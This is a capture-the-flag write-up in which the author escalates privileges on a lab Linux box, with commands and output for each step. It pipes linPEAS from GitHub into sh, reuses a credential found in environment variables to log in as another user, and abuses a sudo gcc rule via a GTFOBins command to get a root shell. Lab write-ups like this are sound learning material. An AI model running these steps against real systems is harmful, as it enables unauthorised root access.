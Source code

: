 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have ssh access to a linux box, need to find vulnerable configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the approach that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>
ssh: connect to host <ip> port 22: Connection refused
```

Ah, ok, why tho? Let's check what ports are open and services running:

```bash
nmap -sV <ip>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:19 AEDT
Nmap scan report for <ip>
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
 
```

Switching ports.

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for that "privesc" as it's called in "the biz".

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0  805k    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

```

... etc etc ... 

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?  
HOME=/home/Pentester 
LOGNAME=Pentester
JOAN_TEMPORARY_CREDS=jojocreds1
```
 
Well well well. For reasons mysterious there are temp creds for another user in the environment variables of our account. 

Let's try SSHing into their account and see what permissions they have. Fingers crossed they're in `sudo` group and we can use their privilege to escalate ours **sinister laugh**. 

What's our target account though? 

```bash
ls /home
Joan  Pelski  Pentester  Shedra  user
```

Spoiler alert: it's the Joan account. Let's try to ssh into their account with the creds. 

```bash

ssh Joan@localhost 
Joan@localhost's password: <enter creds>
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Nov 28 22:51:34 2024 from 127.0.0.1

```

**lowers sunglasses** We're in!

---

### Step 2: Priv Esc

See what groups Joan's in.

```bash
groups
Joan sudo
```

Good, good, now let's add our pentester account to sudoers.

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on host."
```

Blerg! Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour.

![image](./gandalf-white.gif)

Thanks wizard teammate 🧙 10 seconds, one command, and a URL later. 

The command which shows the commands they can run as sudo.

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

The URL with ways to exploit that: https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that GTFObin command now.

```bash
sudo gcc -wrapper /bin/sh,-s .
#
whoami
root
```

😍 

Now we can give our Pentester account sudo powers.

```bash
sudo usermod -aG sudo Pentester
exit
exit
exit
```

There we logged out of root, Joan, and Pentester, then sshed back in to the latter to apply the new group memberships. Check those.

```bash
ssh -p 2222 Pentester@<ip>
groups
Pentester sudo
```

Huzzah! Now what commands can we run as sudo?

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Interesting this one, as the commands are limited to those Joan had permission to run as sudo. Wasn't expecting that. 

Run that GTFOBin again with our account

```bash
Pentester@host:~$ sudo gcc -wrapper /bin/sh,-s .
#
whoami
root
```

Privilege escalated.

---

### Step 3: Flag Retrieval

Now the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first 

```bash
#
find / -name flag.txt -type f
/root/flag.txt
```

Then

```bash
#
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Reflections

- Ask teammates for help when you get blocked. Difficult for you can be easy for them and vice versa. 
- As a team, set up some tools in comms (like a thread for each challenge) to share progress and artefacts for challenges so someone can pick up from where someone else is stuck.
- Linpeas and gtfobins are useful tools to privesc on linux. 🫶

---


